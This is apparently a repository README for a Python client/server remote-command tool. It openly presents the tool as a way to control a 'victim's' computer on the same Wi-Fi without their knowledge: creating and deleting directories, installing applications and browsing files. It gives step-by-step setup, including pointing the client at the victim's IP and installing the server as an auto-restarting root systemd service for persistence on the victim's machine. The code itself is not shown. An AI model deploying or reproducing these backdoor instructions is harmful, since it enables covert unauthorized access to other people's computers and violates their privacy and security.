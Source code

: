 This repository is a cyber security project of mine, it is not very comprehensive yet it is effective, it allows you to do various operations without the victim knowing. You can create or remove directories, install applications and browse the victim's computer. Only drawback is you have to be in the same wifi with the victim.
You can set this up by following the steps I provided.


## Requirements

-To run this project, you will need the following:

-Python 3.x installed on both the server and client machines.

-SQLite3 (included with Python).

-Basic knowledge of using a terminal or command line interface.

------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Files Included

client.py: The client script to send commands to the server.

server.py: The server script to receive and execute commands.

createDb.py: A script to create the SQLite database and table.

view_Db.py: A script to view the contents of the database.

command_outputs.db: The SQLite database where command outputs are stored. (you should run the createDb.py on the terminal for this to show up) -> Windows: python createDb.py Linux/Mac: python3 createDb.py

------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Step 1: Edit client.py

In the client.py file, update the IP address to the IP address of the server machine (victim's machine): client_socket.connect(('192.168.169.117', 12345)) #Example

------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Step 2: Run createDb.py

Run the create_db.py script on the client machine to create the SQLite database and table: python3 create_db.py

------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Step 3.1: Setup the Server

On the server machine, create a systemd service to ensure the server script runs on boot: sudo nano /etc/systemd/system/server.service

------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

## 3.2: Add the following content to the file

[Unit]

Description=Start Server Script

After=network.target


[Service]

ExecStart=/usr/bin/python3 /path/to/server.py

WorkingDirectory=/path/to/

StandardOutput=inherit

StandardError=inherit

Restart=always

User=root


[Install]

WantedBy=multi-user.target

Replace /path/to/ with the actual path where server.py is located.

------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

## 3.3: Reload the systemd daemon and start the service:

sudo systemctl daemon-reload

sudo systemctl start server.service

sudo systemctl enable server.service
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Step 4: Running the Client

Run the command 'python3 client.py' on your terminal while you are on your projects directory -> .../Desktop/client.py

Enter the command you want to execute on the server machine. The output will be displayed and stored in the SQLite database.

------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Step 5: Reviewing the Database

To view the contents of the database, run the viewDb.py script on the client machine: python3 view_db.py

This will print the stored command outputs.

------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

That's all, you can find more commands for your needs in the text file I added named 'serverServiceCommand.txt' 
